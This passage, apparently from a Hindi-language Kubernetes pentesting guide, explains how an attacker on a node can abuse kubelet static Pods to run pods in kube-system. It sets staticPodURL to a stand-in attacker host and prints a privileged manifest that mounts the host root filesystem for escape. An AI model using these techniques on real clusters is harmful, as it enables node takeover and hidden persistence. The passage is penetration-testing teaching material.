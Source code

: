 _Static Pods_ को kubelet daemon द्वारा किसी specific node पर सीधे manage किया जाता है, बिना API server के उन्हें observe किए। Control plane द्वारा manage किए जाने वाले Pods (उदाहरण के लिए, एक Deployment) के विपरीत, **kubelet प्रत्येक static Pod की निगरानी करता है** (और यदि वह fail हो तो उसे restart कर देता है)।

इसलिए, static Pods हमेशा एक specific node पर एक ही **Kubelet** से बंधे होते हैं।

**kubelet स्वचालित रूप से प्रत्येक static Pod के लिए Kubernetes API server पर एक mirror Pod बनाने की कोशिश करता है**। इसका मतलब यह है कि node पर चल रहे Pods API server पर दिखाई देते हैं, पर वहां से उन्हें नियंत्रित नहीं किया जा सकता। Pod के नामों के अंत में node hostname के साथ एक leading hyphen जोड़ा जाएगा।

> [!CAUTION]
> Static Pod का **`spec` अन्य API objects का संदर्भ नहीं दे सकता** (e.g., ServiceAccount, ConfigMap, Secret, आदि). तो **आप इस व्यवहार का दुरुपयोग करके current node पर arbitrary serviceAccount के साथ pod लॉन्च करके cluster को compromise नहीं कर सकते**। लेकिन आप इसका उपयोग pods को विभिन्न namespaces में चलाने के लिए कर सकते हैं (यदि किसी कारण से यह उपयोगी हो)।

यदि आप node host के अंदर हैं तो आप उसे अपने अंदर ही एक **static pod** बनाने के लिए प्रेरित कर सकते हैं। यह काफी उपयोगी हो सकता है क्योंकि इससे आप किसी अलग namespace जैसे **kube-system** में **pod** बना सकते हैं।

static pod बनाने के लिए, [**docs बहुत मददगार हैं**](https://kubernetes.io/docs/tasks/configure-pod-container/static-pod/). मूल रूप से आपको 2 चीज़ें चाहिए:

- पैरामीटर **`--pod-manifest-path=/etc/kubernetes/manifests`** को **kubelet service** में, या **kubelet config** ([**staticPodPath**](https://kubernetes.io/docs/reference/config-api/kubelet-config.v1beta1/index.html#kubelet-config-k8s-io-v1beta1-KubeletConfiguration)) में कॉन्फ़िगर करें और service को restart करें
- **pod definition** को **`/etc/kubernetes/manifests`** में बनाएं

**एक और अधिक stealth तरीका होगा:**

- **kubelet** config file में पैरामीटर **`staticPodURL`** को modify करें और कुछ इस तरह सेट करें `staticPodURL: http://attacker.com:8765/pod.yaml`. इससे kubelet process उस indicated URL से configuration लेकर एक **static pod** बना देगा।

**उदाहरण**: kube-system में privilege pod बनाने के लिए **pod** configuration, [**यहाँ**](https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/) से लिया गया:
```yaml
apiVersion: v1
kind: Pod
metadata:
name: bad-priv2
namespace: kube-system
spec:
containers:
- name: bad
hostPID: true
image: gcr.io/shmoocon-talk-hacking/brick
stdin: true
tty: true
imagePullPolicy: IfNotPresent
volumeMounts:
- mountPath: /chroot
name: host
securityContext:
privileged: true
volumes:
- name: host
hostPath:
path: /
type: Directory
```
### Delete pods + unschedulable nodes
